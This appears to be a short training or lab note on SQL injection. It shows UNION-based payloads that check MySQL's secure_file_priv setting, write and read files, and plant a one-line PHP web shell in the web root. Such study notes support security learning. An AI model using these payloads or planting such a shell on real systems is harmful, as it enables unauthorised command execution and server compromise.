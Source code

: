 <figure><img src="../../../.gitbook/assets/load_file.png" alt=""><figcaption></figcaption></figure>

### Write file

```sql
cn' union select 1,variable_name,variable_value,4 from information_schema.global_variables where variable_name="secure_file_priv"-- -
```

If `secure_file_priv` is :

* `NULL`, you cannot read/write from any directory.
* `EMPTY`, you can read/write in any location.

If the `secure_file_priv` is `EMPTY`, I can run the next instructions.

```sql
cn' union select 'test1','test2','test3','test4' into outfile '/tmp/test.txt'-- -
cn' union select 1,load_file("/tmp/test.txt"),3,4-- -
```

You have a have acces to your file, and inject shell

```sql
cn' union select 1,"file written successfully!",2,3 into outfile "/var/www/html/proof.txt"-- -
cn' union select "",'<?php system($_REQUEST[0]); ?>', "", "" into outfile '/var/www/html/shell.php'-- -
```

## Questions
